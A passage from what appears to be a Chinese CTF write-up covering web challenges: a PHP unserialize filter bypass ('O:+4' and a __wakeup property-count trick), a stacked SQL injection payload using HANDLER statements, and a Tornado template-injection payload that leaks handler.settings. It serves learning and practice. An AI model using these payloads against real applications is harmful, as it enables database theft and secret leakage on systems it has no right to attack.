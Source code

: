 ```php
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
主要绕过两个地方：
1. preg_match(’/[oc]:\d+:/i’, $var)的绕过
2. unserialize时__wakeup的绕过

 绕过正则：使用+可以绕过preg_match() 正则匹配这里匹配的是 O:4，我们用 O:+4 即可绕过
 绕过wakeup：使序列化字符串中标识变量数量的值大于实际变量即可，即1变为2
在下面添加如下代码构造序列化即可：
```php
    $A = new Demo('fl4g.php');
    $C = serialize($A);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $C = str_replace('O:4', 'O:+4',$C);//绕过preg_match
    $C = str_replace(':1:', ':2:',$C);//绕过wakeup
    var_dump($C);
    //string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
    var_dump(base64_encode($C));
    //string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
```
![](https://img-blog.csdnimg.cn/20200325122808313.png)
传入可得到flag
![](https://img-blog.csdnimg.cn/20200325122956177.png)

## supersqli
强网杯的原题，直接使用payload
```sql
1'; handler `1919810931114514` open as y1ng; handler y1ng read first; handler y1ng close;#
```
![](https://img-blog.csdnimg.cn/20200325132243997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

## easytornado
一样是buuctf上做过的题目，直接上payload
```python
?msg={{1*2}}
```
![](https://img-blog.csdnimg.cn/20200325132852888.png)
获得cookie：
```python
?msg={{handler.settings}}
```
![](https://img-blog.csdnimg.cn/20200325132939910.png)
得到ead3e90c-a620-4f9c-afd5-824276d245ba，使用python脚本：
